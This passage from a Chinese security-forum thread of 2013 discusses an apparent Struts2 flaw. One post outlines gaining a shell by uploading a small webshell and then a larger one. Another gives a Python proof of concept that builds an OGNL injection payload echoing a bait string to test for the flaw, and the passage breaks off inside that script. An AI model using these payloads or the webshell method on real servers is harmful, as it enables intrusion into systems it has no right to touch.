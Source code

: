 5#kissy  白帽子 | 2013-07-17 22:47
非常的感谢 楼主 求 工具啊
 
6#修码的马修  白帽子 | 2013-07-17 22:49
这……累趴多少黑阔
 
7#kissy  白帽子 | 2013-07-17 22:50
这么先进的信息在什么地方 拿到的？
 
8#rootsecurity  白帽子 | 2013-07-17 22:51
牛逼
 
9#墨水心_Len  白帽子 | 2013-07-17 22:56
今天就是IT界的一个悲剧！
 
10#Icyblade  白帽子 | 2013-07-17 23:06
Getshell的基本思路是先爆路径，然后通过路径上传小马（就是上传大马的马，url不能过长所以只能先传小马），然后用小马传大马。这里有点扯的是http://a.com/b/c/d.action传上去的小马有可能在http://a.com/b/里面也有可能在http://a.com/b/c/里面，晚上写工具的时候一直在纠结这个问题，求大神拯救
 
11#小胖胖要减肥  白帽子 | 2013-07-17 23:14
@rootsecurity 京东的菊花123.jpg
 
12#kissy  白帽子 | 2013-07-17 23:14
@Icyblade  大神 你的工具是 用什么语言写的？ 可以说说如何写工具吗？
 
13#LauRen (不登高山，不知天之高也；不临深溪，不知地之厚也。) 白帽子 | 2013-07-17 23:16
求合成工具
 
14#天朝城管  白帽子 | 2013-07-17 23:43
一帮白帽子在wooyun上刷struts2，一帮黑帽子在地下脱裤。裤漏了，黑帽子溜了。白帽子被判刑x年，出来后感叹WQNMLGB
 
15#感谢(1)DragonEgg (سمَـَّوُوُحخ ̷̴̐خ ̷̴̐خ ̷̴̐خ امارت) 白帽子 | 2013-07-17 23:47
= =！点 感谢 啊。。
 
16#LauRen (不登高山，不知天之高也；不临深溪，不知地之厚也。) 白帽子 | 2013-07-17 23:49
@DragonEgg 感谢以点
 
17#isaac  白帽子 | 2013-07-17 23:53
# coding: utf-8
import string
import random
import urllib


# 简单 POC
bait = "".join(random.sample(list(string.letters), 32))
"""
%{
#bait=new java.lang.String('test_str'),
#resp=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#resp.println(#bait),
#resp.flush(),
#resp.close()
}
"""
simple_poc = "%{"
simple_poc += "#bait=new java.lang.String('{0}'),".format(bait)
simple_poc += "#resp=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),"
simple_poc += "#resp.println(#bait),"
simple_poc += "#resp.flush(),"
simple_poc += "#resp.close()"
simple_poc += "}"
